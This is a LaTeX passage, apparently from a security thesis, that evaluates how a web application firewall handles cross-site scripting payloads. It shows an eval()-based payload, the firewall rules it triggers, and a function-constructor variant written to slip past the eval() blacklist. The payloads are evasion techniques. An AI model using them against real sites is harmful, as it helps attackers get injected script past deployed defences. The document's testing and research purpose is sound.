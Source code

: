 \subsubsection{Eval \& function constructor}
\label{sec:functionconstructorsingleeva}
Considering the example payload of the previous subsection: String concatenation: Creating a modified payload that forces the evaluation of the part equal to the example payload from the previous subsection would remove the dependency of evaluation through the vulnerable code. The modified payload might use the \verb|eval()| function to achieved forced evaluation:

\begin{lstlisting}[style=basicStyle, language=Python]
eval('alert' + '(`concatenation`)')
\end{lstlisting}

When sent in a request directed to the test Web server protected by the evaluted Web application firewall, this payload triggers the following blocking firewall rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=eval() blocked, label={lst:evalblocked}]
<payload>"eval('alert' + '(`concatenation`)')"</payload>

<message>"PHP Injection Attack: High-Risk PHP Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "331"] [id "933160"]<fileDetails>
<MatchedData>"eval('alert'   '(`concatenation`)')"</MatchedData>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"eval("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}

It is apparent, that usage of the \verb|eval()| function is heavily blacklisted. Therefore, \verb|eval()| has been substituted by the function constructor in order to obscure the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=Function constructor bypass, label={lst:funconbypass}]
[].constructor.constructor('alert' + '(`concatenation`)')()
\end{lstlisting}

